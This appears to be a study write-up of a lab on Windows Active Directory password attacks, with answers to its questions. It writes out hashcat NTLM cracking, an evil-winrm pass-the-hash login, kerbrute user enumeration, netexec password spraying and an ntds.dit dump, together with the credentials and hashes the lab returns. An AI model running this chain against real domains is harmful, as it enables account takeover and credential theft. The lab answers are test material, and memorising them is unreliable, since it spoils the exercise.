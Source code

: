 ### Cracking hashes and gaining credentials
#### Cracking a single hash with Hashcat
```shell
 sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

`What if we are unsuccessful in cracking a hash?`
## Pass the Hash (PtH) considerations
We can still use hashes to attempt to authenticate with a system using a type of attack called `Pass-the-Hash` (`PtH`). A PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM%20uses%20an%20encrypted%20challenge,to%20the%20secured%20NTLM%20credentials) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`. Here is an example of how this would work:
#### Pass the Hash (PtH) with Evil-WinRM Example
```shell
evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```


### Questions 

1.  What is the name of the file stored on a domain controller that contains the password hashes of all domain accounts? `ntds.dit`

2. Submit the NT hash associated with the Administrator user from the example output in the section reading. Read the dump of ntds.dit:  `64f12cddaa88057e06a81b54e73b949b`

3. On an engagement you have gone on several social media sites and found the Inlanefreight employee names: John Marston IT Director, Carol Johnson Financial Controller and Jennifer Stapleton Logistics Manager. You decide to use these names to conduct your password attacks against the target domain controller. Submit John Marston's credentials as the answer. (Format: username:password, Case-Sensitive)
```shell
Run my own script to make a userlist:
>  ADUsersGen -l users.txt  > list.txt
>  cat list.txt
marston
johnmarston
marstonjohn
john.marston
marston.john
j.marston
cjohnson
caroljohnson
...
...

> kerbrute userenum --dc 10.129.202.85 --domain ILF.local list.txt
[+] VALID USERNAME:	 cjohnson@ILF.local
[+] VALID USERNAME:	 jmarston@ILF.local
[+] VALID USERNAME:	 jstapleton@ILF.local
[+] VALID USERNAME:	 jmarston@ILF.local

Write usernames in a file > users.txt
Try netexec to brute force credentials
> netexec smb 10.129.202.85 -u users.txt -p /usr/share/wordlists/seclists/Usernames/fasttrack.txt
[+] ILF.local\cjohnson:Welcome1212
[+] ILF.local\jmarston:P@ssword! (admin)

Try to dump ntds.dit
> netexec smb 10.129.202.85 -u jmarston -p P@ssword! -M ntdsutil\
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
ILF.local\jstapleton:1108:aad3b435b51404eeaad3b435b51404ee:92fd67fd2f49d0e83744aa82363f021b:::
```